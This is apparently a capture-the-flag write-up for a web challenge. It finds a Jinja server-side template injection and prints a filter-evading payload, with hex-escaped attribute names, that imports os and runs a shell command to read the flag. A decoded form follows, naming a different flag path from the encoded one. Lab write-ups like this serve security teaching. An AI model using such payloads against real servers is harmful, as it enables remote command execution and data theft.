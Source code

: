 # Beyond Borders

> Web - Medium

**Description**: Explore the travel blog and create your perfect travel plan. Feel free to share yours if you've got one!

![image](./images/beyondborders0.png)

![image](./images/beyondborders1.png)

The name is being printed back, this can be a hint to injection

payload `{{7*'7'}}` gives `7777777` -> SSTI with Jinja template \
several tries of payload indicated that the input is heavily sanitized

VERY Helpful [blog](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) and a [similar problem in PicoCTF 2025](../picoCTF/Web%20Exploitation/SSTI2.md)

This payload worked:

```php
{{request|attr('\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e')|attr('\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f')|attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')('\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f')|attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')('\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f')('os')|attr('\x70\x6f\x70\x65\x6e')('cat flag.txt')|attr('read')()}}
```

which translates to:

```php
{{ request.application.__globals__.__builtins__.__import__('os').popen('cat /challenge/flag').read() }}
```

